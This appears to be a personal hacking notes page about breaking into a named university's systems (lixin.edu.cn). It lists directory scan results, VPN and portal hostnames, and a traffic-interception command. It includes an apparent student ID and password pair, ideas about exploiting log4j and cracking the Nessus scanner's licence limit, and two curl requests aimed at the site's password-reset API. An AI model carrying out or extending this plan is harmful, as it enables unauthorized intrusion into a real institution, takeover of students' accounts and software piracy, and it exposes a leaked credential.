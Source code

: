 ```yaml
---
{"categories": &id001 ["freelancer", "hack"], "category": "hacking", "date": "2023-12-22 23:52:59", "description": "The article discusses hacking attempts on lixin.edu.cn and the use of tools such as dirbuster and Kali Linux to find vulnerabilities. It also includes a HTTP request command for changing passwords on the server.", "tags": *id001, "title": "The Hack (Get password and tests)"}

---
```


------

# The Hack (Get password and tests)

dirbuster has found something over  "http://oa.lixin.edu.cn//test/"
+ http://oa.lixin.edu.cn//admin (CODE:301|SIZE:237)                            
+ http://oa.lixin.edu.cn//css (CODE:301|SIZE:235)                              
+ http://oa.lixin.edu.cn//help (CODE:301|SIZE:236)                             
+ http://oa.lixin.edu.cn//images (CODE:301|SIZE:238)                           
+ http://oa.lixin.edu.cn//js (CODE:301|SIZE:234)                               
+ http://oa.lixin.edu.cn//setup (CODE:301|SIZE:237)                            
+ http://oa.lixin.edu.cn//template (CODE:301|SIZE:240)                         
+ http://oa.lixin.edu.cn//test (CODE:301|SIZE:236)                             
+ http://oa.lixin.edu.cn///admin (CODE:301|SIZE:237)                           
+ http://oa.lixin.edu.cn///help (CODE:301|SIZE:236)                            
+ http://oa.lixin.edu.cn///images (CODE:301|SIZE:238)                          
+ http://oa.lixin.edu.cn///script (CODE:301|SIZE:238)  

suspicious:
http://oa.lixin.edu.cn/oanew/sys/taskcenterapp/*default/index.do


portal (even in the internet):
http://202.121.255.3:8080/portal

Scan this website with kali linux.

The Intranet Gateway For Campus: (maybe less hops?)
https://app.topsec.com.cn

mitmdump --mode socks5 --listen-port 8050 -w logs.log --flow-detail 3 --set stream_websocket=true

pdvpn.lixin.edu.cn
pdvpn2.lixin.edu.cn
vpn.lixin.edu.cn
vpn2.lixin.edu.cn

xxb.lixin.edu.cn/jszl/57078.htm

201960630:CHENweiyi0519

https://cas.paas.lixin.edu.cn/cas/login?service=https%3A%2F%2Flxjw.lixin.edu.cn%2Fcas%2Flogin

https://security-center.paas.lixin.edu.cn/find-pwd

20039370

missing puzzle for changing password:

trial user:
201960249

found russia hacker's kali tool site: https://en.kali.tools/all/

apparently we have some issue with log4j and this could be our way in, the damn server.

sniffing the whole damn campus is only possible if we know how to get into the same subnet of all people.

have searched related websites with site:lixin.edu.cn, could get more if keep doing so, using dnsenum.

to get all site links with proper titles, we need to use playwright.

nessus scanner has that 16 ips limitation, we need to crack/patch it first.

to master kali linux, recommend to scrape kali_tools (https://tools.kali.org/) and tutorialspoint (https://www.tutorialspoint.com/kali_linux/index.htm) for kali, or just simply using manpage.

cisco router is untouched till now. need we to scan it?
(intermediate ip addresses)

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/passwordStrategy/verify' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
  -H 'sec-ch-ua-platform: "Chrome OS"' \
  -H 'Origin: https://security-center.paas.lixin.edu.cn' \
  -H 'Sec-Fetch-Site: same-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://security-center.paas.lixin.edu.cn/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw '{"password":"abcdefABC","userId":""}' \
  --compressed

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/forgotPassword/changePassword' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
  -H 'sec-ch-ua-platform: "Chrome OS"' \
  -H 'Origin: https://security-center.paas.lixin.edu.cn' \
  -H 'Sec-Fetch-Site: same-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://security-center.paas.lixin.edu.cn/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw '{"confirmPassword":"abc123ABC","newPassword":"abc123ABC","nonce":"YzhhZmZjYzktNWQ3Ny00MGU1LTg0ODgtYTYzZTMzMDZkMjU0XzE2NDAyNjg5MzcyNTY"}' \
  --compressed

